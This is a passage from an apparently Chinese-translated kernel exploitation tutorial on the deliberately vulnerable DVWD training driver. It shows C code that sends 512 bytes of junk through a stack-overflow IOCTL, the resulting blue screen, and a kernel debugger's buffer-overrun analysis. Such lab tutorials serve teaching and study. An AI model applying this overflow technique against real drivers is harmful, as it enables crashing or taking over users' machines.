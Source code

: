 ```
    NULL, 
    OPEN_EXISTING, 
    0, 
    NULL);
 printf("\tHandle: %p\n",hDevice);
 getch();

 printf("[~] Send IOCTL DEVICEIO_DVWD_STACKOVERFLOW with junk data...\n");
 DeviceIoControl(hDevice, DEVICEIO_DVWD_STACKOVERFLOW, &junk, strlen(junk), NULL, 0, NULL, NULL);


 CloseHandle(hDevice);
 return 0;
}

```

代码浅显易懂,它仅发送512-字节的垃圾数据（事实上是511个’A’+’\0’）.这应该足以溢出驱动使用的buffer了,它才64-字节长) 好的，让我们编译并运行上面的代码吧,这是我们得到的结果:

![enter image description here](http://drops.javaweb.org/uploads/images/312bc8c309d9b3a77ba0b677371a13d42bca2ea5.jpg)

BOUM!一个很棒的BSOD发生了！

现在我们将用于测试的windows VM附加到远程内核调试器中,那事实上正在另一台windows VM中运行.所有关于使用VMware搭建的远程调试环境的细节已在这篇文章中(1]给出.

我们再次运行代码,将buffer发送到驱动后,windows VM冻结了.

![enter image description here](http://drops.javaweb.org/uploads/images/f5ab868c847de3ede746464519efa063f7b36d30.jpg)

…同时,远程内核调试器检测到了”fatal system error”：

```
*** Fatal System Error: 0x000000f7
                       (0xB497BD51,0xF786C6EA,0x08793915,0x00000000)

Break instruction exception - code 80000003 (first chance)

A fatal system error has occurred.
Debugger entered on first try; Bugcheck callbacks have not been invoked.

A fatal system error has occurred.

```

为了得到更多信息,我们输入!analyze –v，接着我们得到结果如下:

```
kd> !analyze -v
*******************************************************************************
*                                                                             *
*                        Bugcheck Analysis                                    *
*                                                                             *
*******************************************************************************

DRIVER_OVERRAN_STACK_BUFFER (f7)
A driver has overrun a stack-based buffer.  This overrun could potentially
allow a malicious user to gain control of this machine.
DESCRIPTION
A driver overran a stack-based buffer (or local variable) in a way that would
have overwritten the function's return address and jumped back to an arbitrary
address when the function returned.  This is the classic "buffer overrun"
hacking attack and the system has been brought down to prevent a malicious user
from gaining complete control of it.
Do a kb to get a stack backtrace -- the last routine on the stack before the
buffer overrun handlers and bugcheck call is the one that overran its local
variable(s).
Arguments:
```